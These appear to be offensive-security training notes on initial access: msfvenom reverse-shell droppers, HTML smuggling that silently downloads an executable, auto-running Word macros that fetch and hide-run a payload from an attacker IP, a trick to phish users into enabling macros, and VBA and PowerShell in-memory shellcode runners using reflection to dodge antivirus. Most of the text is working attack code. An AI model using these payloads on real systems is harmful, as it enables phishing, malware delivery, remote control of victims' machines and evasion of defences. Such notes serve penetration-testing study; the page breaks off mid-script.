



# Droppers

Droppers are the first stage payload which on executing contact a C2 server for the rest of the payload. Droppers can be effectively used to deliver small sized payloads which can easily bypass Antivirus and their only function is to get on the system and contact the C2 for furthur instructions.

msfvenom can be used to create payloads and the metasploit's multi handler can easily handle both staged and non-staged payloads.

Example payload creation :-

    Non-Staged payload :
    sudo msfvenom -p windows/shell_reverse_tcp LHOST=\<ip> LPORT=\<port> -f exe -o shell.exe

    Staged Payload :
    sudo msfvenom -p windows/shell/reverse_tcp LHOST=\<ip> LPORT=\<port> -f exe -o shell.exe

Non-Staged payloads are much smaller in size, the only difference in command between the two is the forwardslash.

Netcat or msfconsole can be used as a listener.

&nbsp;

# HTML Smuggling

The HTML anchor tag can be used to automatically download a file onto the computer when a hyperlink is clicked.

    <html>
        <body>
            <a href="/msfstaged.exe" download="msfstaged.exe">DownloadMe</a>
        </body>
    </html>

This however requires user interaction and also the filename is seen, the browser will block off such downloads almost instantly.

Javascript can be used to automatically download the file in form of octet stream. The steps are :

1. Store the payload in form of base64
2. Convert the base64 to byte array and store this in a variable
3. Create a Blob of octet stream.
4. Create a URL File object of the blob using the URL.createObjectURL() to stimulate the file being on a webserver.
5. Now create an anchor tag with the display set to none.
6. Set the href of the anchor tag to the URL file object.
7. Give the filename using \<tagname>.download
8. Stimulate a click using the \<tagname>.click

Code :-

    <html>
        <body>
            <script>
                function base64ToArrayBuffer(base64)
                {
                    var binary_string = window.atob(base64);
                    var len = binary_string.length;
                    var bytes = new Uint8Array( len );
                    for (var i = 0; i < len; i++)
                    {
                        bytes[i] = binary_string.charCodeAt(i);
                    }
                    return bytes.buffer;
                }

                var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
                var data = base64ToArrayBuffer(file);
                var blob = new Blob([data], {type: octet/stream'});
                var fileName = 'msfstaged.exe';

                var a = document.createElement('a');
                document.body.appendChild(a);
                a.style = 'display: none';
                var url = window.URL.createObjectURLblob);
                a.href = url;
                a.download = fileName;
                a.click();
                window.URL.revokeObjectURL(url);
            </script>
        </body>
    </html>

&nbsp;

# Phising with Microsoft Office

## Basic Macro Payloads

Macros in Word can be added by navigating to Macros option in the View Tab. Now select the current document from the drop down and give the Macro a name and then add it. The macro will be written in VBA (Visual Basic for Applications) Script.



&nbsp;

### Simple If-Else function in Macros

    Sub MyMacro()
        Dim myLong As Long
        myLong = 1
        If myLong < 5 Then
            MsgBox ("True")
        Else
            MsgBox ("False")
        End If
    End Sub

&nbsp;

### For-loop function in Macros

    Sub MyMacro()
        For counter = 1 To 3
            MsgBox ("Alert")
            Next counter
    End Sub

Note : The Word file should be saved in the legacy .doc extension. Extensions of .docx or .docm block macros from executing.

&nbsp;

## Security Settings of Microsoft Word

Navigate to _File > Options > Trust Center > Trust Center Settings_

The default settings of the Trust Center for macros is "Disable all macros with notification"



The Protected View has the following things by default



## Opening cmd.exe from Macros

There are two methods :

1. Shell function of VBA

   - Initialize a string
   - Set the value of the string to cmd.exe
   - Use the Shell function with the vbHide, which sets the window style to (0), hence hides the shell.
   - Code :

   ```
        Sub Document_Open()
            MyMacro
        End Sub

        Sub AutoOpen()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim str As String
            str = "cmd.exe"
            Shell str, vbHide
        End Sub
   ```

2. CreateObject method of the Windows Script Host (WSH)

   - Initialize a string
   - Set the value of the string to cmd.exe
   - Use the WScript.shell to pop a command prompt and set the window style to 0 to hide it.
   - Code :

   ```
        Sub Document_Open()
            MyMacro
        End Sub

        Sub AutoOpen()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim str As String
            str = "cmd.exe"
            CreateObject("Wscript.Shell").Run str, 0
        End Sub
   ```

## Powershell with Macros

Code:

    Sub Document_Open()
        MyMacro
    End Sub

    Sub AutoOpen()
        MyMacro
    End Sub

    Sub MyMacro()
        Dim str As String
        str = "powershell (New-Object
        System.Net.WebClient).DownloadFile('http://<ip>/msfstaged.exe','msfstaged.exe')"
        Shell str, vbHide
        Dim exePath As String
        exePath = ActiveDocument.Path + "\msfstaged.exe"
        Wait (2)
        Shell exePath, vbHide
    End Sub

    Sub Wait(n As Long)
        Dim t As Date
        t = Now
        Do
            DoEvents
        Loop Until Now >= DateAdd("s", n, t)
    End Sub

&nbsp;

Explanation:

1. We first write the macro functions to auto execute macro on opening the word file. (Document_Open and AutoOpen functions)
2. We initialize a variable called "str" with the string datatype
3. A powershell payload to download a dropper is assigned to the variable.
4. The variable "str" is executed in the shell with the Shell function of VBA and the windows style is set to 0 using vbHide to hide the process from the user.
5. The path of the downloaded file is then fetched using ActiveDocument.Path and the file name is concatenated to this.
6. The complete path of the downloaded file is stored in a variable.
7. The variable is executed in the shell with the Shell function of VBA and the windows style is set to 0 using vbHide to hide the process from the user.
8. The Wait() function acts as a sleep command, it takes the number of seconds as it's argument. It then fetches the current time and adds the inputted wait time. It then waits for the current time to be greater than the previous calculated sum. This acts as a sleep function in VBA.

## Phising user into disabling Protected View and Enabling Macros

- A Simple technique can be used where we put some random encrypted junk as the word content.
- Then the user has to enable the macros, which replaces the encrypted text into the proper expected content.
- This tricks the user into thinking they have decrypted the text, while in fact they have enabled macros and disabled the protected view.
- An autotext template can be added by navigating to the _Insert > Quick Parts > AutoTexts_
- Create an autotext and save it to the gallery.
- Now we will use the macros to replace the contents of the document with the one stored in AutoText gallery.
- Code:

```
    Sub Document_Open()
        SubstitutePage
    End Sub

    Sub AutoOpen()
        SubstitutePage
    End Sub

    Sub SubstitutePage()
        ActiveDocument.Content.Select
        Selection.Delete
        ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert
        Where:=Selection.Range, RichText:=True
    End Sub
```

&nbsp;

# Shellcode Execution in Word Memory

With the current progress in executing shellcode, the shellcode is getting downloaded to the hard disk. This can be flagged by the Antivirus and can also be flagged by the Network monitoring softwares.

Instead of downloading the shellcode, we can directly place the assembly code generated by msfvenom onto the memory and execute it.

However, VBA cannot do this directly. Hence we will be using Win32 APIs to carry out the execution of shellcode in memory.

&nbsp;

## Interacting with Win32 API from VBA

Win32 APIs are located in dynamic linked libraries (dll) and run as unmanaged code. Hence to invoke an API, we would have to declare the function and it's datatype in VBA.

Example:

Let us consider the previous example of the GetUserNameA from the "_Advapi32.dll_" .

The function in the dll looks like this:

    BOOL GetUserNameA
    (
        LPSTR lpBuffer,
        LPDWORD pcbBuffer
    );

The LPSTR is a pointer to the string while the pcbuffer holds the maximum size of the buffer that will contain the string.

> Note: The maximum allowed length of an username is 256 bytes.

Now to import our function the code is :

    Private Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long

With the function imported, we must declare three variables - the return value, output buffer and size of the output buffer.

The final code would be :

    Function MyMacro()
        Dim res As Long
        Dim MyBuff As String \* 256
        Dim MySize As Long
        Dim strlen As Long
        MySize = 256
        res = GetUserName(MyBuff, MySize)
        strlen = InStr(1, MyBuff, vbNullChar) - 1
        MsgBox Left$(MyBuff, strlen)
    End Function

Explanation :

1. First we create a variable called res with the datatype of Long.
2. We then initialize a variable called MyBuff of size 256 bytes.
3. Variables MySize to hold the value 256 and variable strlen to hold the length of the username.
4. Now we call the GetUserName function which fetches the username and stores it in MyBuff
5. InStr function calculates the size of the username.
6. MsgBox displays a message box with the username and size as it's arguments.

> Note: In C, String is terminated by a null byte, hence in the InStr function, we go from 1 till the part where we encounter a null byte which marks the end of the string and then we subtract 1 from the value.

&nbsp;

## In-Memory Shellcode Runner in VBA

We'll be using 3 Win32 APIs from Kernel32.dll -

- _VirtualAlloc_ : Allocates unmanaged memory which has Read, Write and Execute enabled
- _RtlMoveMemory_ : Moves the shellcode to the newly allocated memory
- _CreateThread_ : Create a new execution thread to execute the shellcode

> Allocating memory from other Win32 APIs returns a non-executable memory due to memory protection called Data Execution Prevention (DEP)

Understanding each function in-depth:

**_VirtualAlloc_**

Function :

    LPVOID VirtualAlloc(
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD flAllocationType,
        DWORD flProtect
    );

&nbsp;

Explanation :

1. The first argument lpAddress is the memory allocation address, if we set this value to "0" then the memory allocation will be left to the API.
2. The dwSize contains the size of the buffer, in our case it is the size of our shellcode. We can set it as a static value but it is better to make it dynamic. This is done by the UBound function which returns the size of the buffer.
3. The flAllocationType has the type of memory allocation(Types: MEM_COMMIT, MEM_RESERVE, MEM_RESET, MEM_RESET_UNDO)
4. The flProtect has the memory Protections for the allocated memory

> Documentation :
>
> - https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
> - https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants

&nbsp;

**_RtlMoveMemory_**

Function :

    VOID RtlMoveMemory(
        VOID UNALIGNED *Destination,
        VOID UNALIGNED *Source,
        SIZE_T Length
    );

&nbsp;

Explanation :

1. The Destination argument takes the memory address where buffer has to be copied to. We already hae the memory address from the _VirtualAlloc_ function and hence we can directly pass that.
2. The Source argument is the address of the element of the shellcode and must be pass-by-reference
3. The Length argument is pass-by-value and has the length of the buffer.

> Documentation :
>
> - https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory

&nbsp;

**_CreateThread_**

Function :

    HANDLE CreateThread(
        LPSECURITY_ATTRIBUTES lpThreadAttributes,
        SIZE_T dwStackSize,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        DWORD dwCreationFlags,
        LPDWORD lpThreadId
    );

Explanation :

1. Except the lpStartAddress, all the other parameters can be set to "0" as they are either not required or will be automatically set by the API itself.
2. The first two arguments are to specify non-default settings and hence are not needed.
3. The third argument is the starting address of our shellcode from where the execution will begin.
4. The fourth argument is the lpParameter and is the address for the arguments needed by the shellcode. Since we do not require this we will be setting this to 0.
5. The dwCreationFlags controls the creation of the thread, if set to 0, the thread runs immediately after creation.
6. It returns the pointer to the thread that recieves the thread identifier, if set to **NULL**, no value is returned.

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

&nbsp;

MSFVENOM command :

    msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port> EXITFUNC=thread -f vbapplication

&nbsp;

Final Code :

    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

    Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

    Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

    Function MyMacro()
        Dim buf As Variant
        Dim addr As LongPtr
        Dim counter As Long
        Dim data As Long
        Dim res As Long

        buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82,
        12, 139, 82, 20, 139, 114, 40,.......)
        addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

        For counter = LBound(buf) To UBound(buf)
            data = buf(counter)
            res = RtlMoveMemory(addr + counter, data, 1)
        Next counter

        res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function

    Sub Document_Open()
        MyMacro
    End Sub

    Sub AutoOpen()
        MyMacro
    End Sub

&nbsp;

Explanation:

1. The first three lines are the function declarations of the _VirtualAlloc_, _RtlMoveMemory_ and _CreateThread_
2. In the MyMacro() Function , the shellcode generated by msfvenom is stored in the buf variable.
3. Memory Allocation is then done using _VirtualAlloc_, the UBound(buf) is used to get the size of the buffer. &H3000 is to specify MEM_RESERVE and MEM_COMMIT and &H40 is to specify read, write and execute.
4. We then copy the buffer to the allocated memory using the RtlMoveMemory. A for loop is used to copy byte by byte of the shellcode.
5. A thread is created and executed using the CreateThread function.
6. The Macro is executed on open using the Document_Open() and AutoOpen() functions.

&nbsp;

# Shellcode Runner using Powershell

## Calling Win32 APIs from Powershell

- Powershell cannot natively interact with the Win32 API, but using the .NET framework we can use C# in the powershell session.
- In C#, we can declare and import the Win32 API using the DllImportAttribute class.
- As done in VBA, here also we have to convert C data types to C# data types.
- This can easily be done by Microsoft Platform Invocation Services, P/Invoke

> C# statements for importing Win32 Libraries using the P/Invoke can be found here : https://www.pinvoke.net

Example :

For the MessageBox function from the User32.dll ,we can use the above website to fetch the import statement.

Import Statement :

    [DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text, String caption, uint type);

&nbsp;

C# Code :

    using System;
    using System.Runtime.InteropServices;

    public class User32 {
        [DllImport("user32.dll", CharSet=CharSet.Auto)]
        public static extern int MessageBox(IntPtr hWnd, String text,
        String caption, int options);
    }

Explanation :

1. We first import the System and System.Runtime.InteropServices which contain the P/Invoke APIs
2. A class with the name User32 is then created with the P/Invoke statement to import the MessageBox function from the user32.dll

> Note: The class name can be anything, here it is User32 for better understading.

&nbsp;

Powershell Code :

    $User32 = @"
        using System;
        using System.Runtime.InteropServices;
        public class User32 {
            [DllImport("user32.dll", CharSet=CharSet.Auto)]
            public static extern int MessageBox(IntPtr hWnd, String text,
            String caption, int options);
        }
    "@
    Add-Type $User32

    [User32]::MessageBox(0, "This is an alert", "MyBox", 0)

Explanation :

1. A variable called User32 contains the C# code.
2. Add-Type is used to add a .NET class to the current powershell session. It compiles the C# code using the .Net Framework and then adds it to the Current session of Powershell for furthur use.
3. We can then call the function using the _[\<classname>]:\<FunctionName>(arguments)_
4. In the above code snippet, we can call the MessageBox Function with the syntax specified above.

> More on Add-Type : https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2

> The "@" character is used to specify a code block in powershell

&nbsp;

## Shellcode Runner in Powershell

- The methodology is same as the one in VBA: Allocate memory > Copy shellcode to memory > Execute shellcode
- We will be using Win32 API _VirtualAlloc_ and _CreateThread_, but for copying the shellcode we will use .Net Copy method function from the _System.Runtime.InteropServices.Marshal_
- We will also use the _WaitForSingleObject_ function from the _kernel32.dll_ to prevent the shell from dying.

MSFVENOM Payload :

    msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port> EXITFUNC=thread -f ps1

&nbsp;

Powershell code :

    $Kernel32 = @"
        using System;
        using System.Runtime.InteropServices;
        public class Kernel32 {
            [DllImport("kernel32")]
            public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32", CharSet=CharSet.Ansi)]
            public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll", SetLastError=true)]
            public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
        }
    "@
    Add-Type $Kernel32

    [Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...
    $size = $buf.Length
    [IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
    $thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

    [Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")

&nbsp;

Now just download this powershell script using Macros and execute it

&nbsp;

Explanation:

1. A variable called Kernel32 has the C# code.
2. In the C# code, _System_ and _System.Runtime.InteropServices_ is imported. The Win32 APIs for _VirtualAlloc_ , _CreateThread_ and _WaitForSingleObject_ is imported using it's following P/Invoke Statements.
3. The Kernel32 powershell variable is then compiled and imported to the current session using the Add-Type command.
4. The $buf variable stored the generated payload
5. $size variable stores the length of the buffer
6. _VirtualAlloc_ is then called to allocate space of size $size with 0x3000 (MEM_COMMIT and MEM_RESERVE) and 0x40 (read, write and execute)
7. The .Net Copy function is then used to copy the shellcode to the allocated memory.
8. A thread is created using the _CreateThread_ and is executed at the address where the allocation is done.
9. The _WaitForSingleObject_ is called with the arguments $thandle which specifies the created thread and the time (0xFFFFFFFF), which specifies that the thread never quit unless we exit our shell.

&nbsp;

> Note : In-Depth explaination of the _VirtualAlloc_ and _CreateThread_ can be found [here](#in-memory-shellcode-runner-in-vba)

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0

&nbsp;

## In-Memory ShellCode Runner in Powershell

### Problem With Add-Type

- Add-Type uses the .Net Framework to compile the C# code containing Win32 APIs and call them.
- The compilation process is done by Visual C# Command-Line Compiler (csc).
- During this process, both the C# source code and C# Assembly are temporarily **written to disk**
- This will likely be flagged by endpoint Antivirus.

> Note : The filename to which the source code and assembly are written to are randomly generated, both have the same file name but different extension. Source code has a .cs extension while the assembly has the .dll extension

### Leveraging UnsafeNativeMethods

- Our original technique involved Add-Type and DllImports to locate functions in unmanaged dynamic linked libraries.
- This however calls the csc compiler which writes to disk and this is potentially a roadblock as AV can flag it.
- Another method called the Dynamic Lookup can be used to create a .Net assembly in memory.
- Two Win32 APIs are provided by Windows to perform dynamic Lookup :
  - _GetModuleHandle_ : This obtains the memory address of a particular DLL
  - _GetProcAddress_ : This takes in the memory address of the DLL and the function name and returns the memory address of the function.
- We can use these to locate any API, but we must invoke them **without** using Add-Type

&nbsp;

Since we cannot create assemblies, we can search for existing assemblies.

Powershell script :

    $Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
    $Assemblies |
        ForEach-Object {
        $_.Location
        $_.GetTypes()|
            ForEach-Object {
            $_ | Get-Member -Static| Where-Object {
                $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
            }
        } 2> $null
    }

&nbsp;

Explanation :

- We first fetch all the assemblies loaded in the current powershell session
- Then we look through them using the ForEach-Object and fetch it's location
- We then fetch the types and class in a particular assembly by using the .GetTypes()
- We again look through each object and get only the static objects are if any functions are to be used then classes must be declared as static
- We then look for the UnsafeNativeMethods in the meta of the assemblies as if C# code wants to directly invoke Win32 API, then it must provide the Unsafe Keyword
- Finally we pipe all the errors to NULL
- We would then get the System.dll in the output, this can be used as it is a common library which is loaded and contains fundamental content such as data types and references.

&nbsp;

Powershell function to get the function address :

    function LookupFunc {
        Param ($moduleName, $functionName)
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $tmp=@()
        $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
    }

&nbsp;

Explanation :

1. The function takes in two parameters, moduleName and functionName
2. It first fetches all the assemblies and filters out all the non-native assemblies with the GlobalAssemblyCache property.
3. It then splits the path and check if the last value is System.dll
4. We then use the GetType to obtain a reference to the System.dll at runtime.
5. We create an array to store the GetProcAddress instances, we will resolve the first functions address later.
6. We then fetch all the methods in the assembly and find the GetProcAddress, all instances will be stored in the array $tmp
7. We then take the first instance address and then use the Invoke Method to find the address of the function name in that assembly.
8. We would then return the address of the requested function.

Using the above function, we can resolve any Win32 API without using Add-Type

> Note : The GlobalAssemblyCache is a list of all registered and native assemblies on Windows

> Documentation :
>
> - https://docs.microsoft.com/en-us/previous-versions/ms908443(v=msdn.10)
> - https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress

&nbsp;

Powershell script to invoke MessageBoxA Win32 API completely in memory:

    function LookupFunc {
        Param ($moduleName, $functionName)
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $tmp=@()
        $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
    }

    $MessageBoxA = LookupFunc user32.dll MessageBoxA

    $MyAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')
    $Domain = [AppDomain]::CurrentDomain
    $MyAssemblyBuilder = $Domain.DefineDynamicAssembly($MyAssembly, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
    $MyModuleBuilder = $MyAssemblyBuilder.DefineDynamicModule('InMemoryModule', $false)
    $MyTypeBuilder = $MyModuleBuilder.DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])

    $MyConstructorBuilder = $MyTypeBuilder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, @([IntPtr], [String], [String], [int]))
    $MyConstructorBuilder.SetImplementationFlags('Runtime, Managed')

    $MyMethodBuilder = $MyTypeBuilder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', [int], @([IntPtr], [String], [String], [int]))
    $MyMethodBuilder.SetImplementationFlags('Runtime, Managed')

    $MyDelegateType = $MyTypeBuilder.CreateType()
    $MyFunction = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($MessageBoxA, $MyDelegateType)
    $MyFunction.Invoke([IntPtr]::Zero,"Hello World","This is My MessageBox",0)

&nbsp;

Explanation :

1. The first function has been explained in the previous topic.
2. We call the LookUp Function to fetch the address of the Win32 API MessageBoxA and store it in a variable.
3. We then create a new assembly object with the name 'ReflectedDelegate' and assign it to the variable $MyAssembly
4. We then configure the access mode through the DynamicAssemblyLanguage method so that it is an executable and not saved to disk.
5. We then create a new module with custom name of 'InMemoryModule' and tell it not to include symbol information.
6. The next line creates the delegate type which takes in three arguments.
   - The first argument is the name of the delgate, in this case it is MyDelegateType
   - The second is a combined list of attributes which is the type of class, public, non-extendable, and use ASCII instead of Unicode.
   - The third argument specifies the type the delegate builds on top of. In this case it is MultiCaseDelegate class to create a delegate type with multiple arguments which allows us to call target APIs with multiple arguments.
7. We then put the function prototype inside the type and make our own custom delegate type.
   - First we define the contructor thorugh DefineConstructor method, which takes three arguments.
   - The first argument contains the attributes of the constructor itself, here we need to make it public and require it to be referenced by both the name and signature
   - In the last argument, we define the parameter types of the constructor which will become the function prototype.
8. We then set the implementation flags using the SetImplementationFlags Method, we choose runtime and Managed as it is used during runtime and the code is managed.
9. In the next line we tell the .Net Framework the delegate type to be used in calling a function. For this we use the Define method to specify the settings for the Invoke Method.
10. We then instantiate our custom Constructor thorugh the CreateType Method.
11. We then call the GetDelegateForFunctionPointer to link the function address and DelegateType and Invoke MessageBox.
12. We can now execute this to pop a simple Hello World

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/delegates/#:~:text=Delegates%20%28C%23%20Programming%20Guide%29%201%20Delegates%20Overview.%20Delegates,Language%20Specification.%20...%204%20Featured%20Book%20Chapters.%20?msclkid=b8062dedbb6411eca1f560986156741b
> - https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.getdelegateforfunctionpointer?view=netframework-4.8
> - https://docs.microsoft.com/en-us/dotnet/api/system.reflection.emit.typebuilder.definemethod?view=netframework-4.8
> - https://docs.microsoft.com/en-us/dotnet/api/system.reflection.emit.typebuilder.createtype?view=netframework-4.8

&nbsp;

### Reflection Shellcode Runner in Powershell

Powershell Script :

    function LookupFunc {
        Param ($moduleName, $functionName)
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $tmp=@()
        $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
    }

    function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])

        $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')

        $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')

        return $type.CreateType()
    }

    $lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

    [Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

    $hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

    [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)

&nbsp;

Explanation:

1. The LookUp Function and has Already been explained in the above topics.
2. We first fetch the address of the _VirtualAlloc_ Win32 API, we then call the getDelegateType Function.
3. We then call the GetDelegateForFunctionPointer and pass the address and delegate type as arguments, this is stored in a variable.
4. We then invoke the above variable with the arguments - (Address, size, Allocation Type, protection)
5. The $buf variable stores the generated shellcode
6. This is copied into the created memory using the .Net Copy Function.
7. Thread is Created using the _CreateThread_ by following the same steps as the _VirtualAlloc_ with Delegation.
8. We also Invoke the _WaitForSingleObject_ using the same above steps. The arguments are the same as passed in previous snippets.

&nbsp;

# Working With Proxy

- The Net.WebClient cradle used in powershell is proxy aware. It can automatically route seamlessly through proxies.
- In case proxy is to be disabled, we can set the proxy method to null
- Code :
  $wc = new-object system.net.WebClient
  $wc.proxy = $null
  $wc.DownloadString("<link>")

- We Can also change the User-Agent if required, this can be used to mask our identity in network logs.
- Code :
  $wc = new-object system.net.WebClient
  $wc.Headers.Add('User-Agent', "<User-Agent name>")
  $wc.DownloadString("<link>")

- The powershell download cradle using SYSTEM integrity **does not have proxy configuration set**.
- This can however be solved by copying the proxy address from the Local Users Registry Keys to the System Registry keys.

&nbsp;

Powershell script :

    New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
